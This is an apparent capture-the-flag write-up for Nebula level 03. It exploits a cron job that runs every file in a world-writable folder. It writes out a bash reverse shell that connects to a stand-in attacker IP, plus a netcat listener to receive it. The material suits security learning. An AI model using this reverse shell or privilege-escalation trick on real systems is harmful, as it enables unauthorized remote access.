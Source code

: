 ```yaml
---
author: Josh Genao
Date: 2023-01-02
Category:
Tags: #reverseshell
---
```


# Level-03
## Description
Check the home directory of **flag03** and take note of the files there.
There is a crontab that is called every couple of minutes.
## Setup
-   SSH into the Nebula VM using the following credentials:

```
username: level03
password: level03
```
## Summary
If we look in the `/home/flag03` folder we will notice that there is a folder named `writable.d` and a file called `writable.sh`

![](../imgs/Pasted%20image%2020230102172326.png)

Inside the `writable.sh`, we can see that the script is running every script located in the `/home/flag03/writeable.d` folder. Since the `writable.d` folder permissions are set so anyone can alter the file content, we will take advantage of that

```
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

As we can see, the `writeable.d` folder contains `777` permissions in which we are able to put any files in there and the cron job should be able to execute our file.

We can place a reverse shell [^1] doing the following:
```
level03@nebula:/home/flag03$ echo "bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1" >  /home/level03/shell
level03@nebula:/home/flag03$ cp /home/level03/shell /home/flag03/writable.d
```

In the command above, we are appending the following command into the shell file:
`bash -i >& /dev/tcp/[ATTACKER_IP]/4444 0>&1"`

The bash script will open a TCP connection to the associated `ATTACKER IP` on port 4444 and all standard input, output, and error streams are sent via this connection. [^2]

On our machine, letss setup Netcat to listen for an incoming shell on port 4444 by running the following command
`$ nc -nlp 4444`

Once connection is established and the cron job executes, the target device will have `/bin/bash` input, output, and error data streams sent to our machine on port 4444 and we will be able to interact with the shell as `flag03` user
## Flag
![](../imgs/Pasted%20image%2020230102210123.png)
## References
[^1]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#c
[^2]: https://tldp.org/LDP/abs/html/devref1.html#:~:text=When%20executing%20a%20command%20on,%2C%20for%20a%20connecting%20cable.)
